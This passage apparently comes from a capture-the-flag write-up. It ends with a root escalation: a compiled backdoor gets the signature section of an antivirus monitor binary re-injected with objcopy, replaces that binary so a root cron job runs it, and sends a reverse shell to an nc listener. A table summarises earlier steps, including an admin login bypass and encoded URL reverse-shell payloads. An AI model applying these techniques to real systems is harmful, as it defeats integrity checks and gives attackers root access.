 **Compilation and signature re-injection flow:**

1. Compile the backdoor binary:

```bash
gcc a.c -o backdoor
```

2. Extract the `.text_sig` section from the original `monitor` binary:

```bash
objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor
```

3. Add the extracted signature section to your compiled backdoor:

```bash
objcopy --add-section .text_sig=text_sig backdoor
```

4. Replace the `monitor` binary and set executable permissions:

```bash
cp backdoor /opt/AV/periodic-checks/monitor
chmod +x /opt/AV/periodic-checks/monitor
```

5. Wait for the root cron job to execute (typically runs at regular intervals). Keep your listener active.

**Listener:**

```bash
nc -lvnp 443
```

**Result:** Root shell obtained.

**Root flag (example):** `ed427f27e39f901f671d7f87cb5d2b8b`

---

## Key Problems & Solutions (Summary)

| Problem                                             | Solution                                                                                                 |
| --------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| No initial credentials                              | Registered new account via `/register.php`                                                               |
| Needed admin access                                 | Used backup + `security_login.php` logic and set known answers to authenticate as admin                  |
| Complex payloads breaking in URL                    | Base64 + URL encoding adjustments; avoided `+` characters; used FIFO `nc` shell for improved reliability |
| Wrong reverse-shell IP in initial tests             | Corrected to attack machine IP (replace with your machine IP)                                            |
| C compilation syntax/quote escaping errors          | Properly escape inner quotes when calling `system()` in C source                                         |
| Binary signature validation blocking naive backdoor | Extract `.text_sig` from original binary and re-inject into compiled backdoor using `objcopy`            |
| Unknown cron timing                                 | Keep listener persistent; cron usually runs at fixed short intervals (minutes)                           |

---
